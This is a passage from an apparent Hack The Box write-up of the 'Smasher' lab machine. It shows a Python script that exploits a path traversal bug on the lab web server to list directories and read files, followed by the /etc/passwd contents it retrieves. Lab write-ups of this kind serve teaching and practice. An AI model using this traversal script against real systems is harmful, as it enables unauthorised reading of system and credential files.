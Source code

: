 We can walk the file system by doing a `GET ../../../../<file>`, and it also works for directories so we can get a directory listing.

I wrote a small python script to fix the output and sort the results to make it easier to work with:

```python
#!/usr/bin/python

from pwn import *
import sys
import requests

context.log_level = 'info'

ls = []

r = requests.get('http://10.10.10.89:1111/../../../../../%s' % (sys.argv[1]))
if '<tr>' in r.text:
    for line in r.text.splitlines():
        if '<tr>' in line:
            # print(line.split('"')[1])
            ls.append(line.split('"')[1])
    for i in (sorted(ls)):
        print(i)
else:
    print r.text
```

We find the list of users in `/etc/passwd`

```
root@kali:~/hackthebox/Machines/Smasher# python scanner.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
www:x:1000:1000:www,,,:/home/www:/bin/bash
smasher:x:1001:1001:,,,:/home/smasher:/bin/bash
```

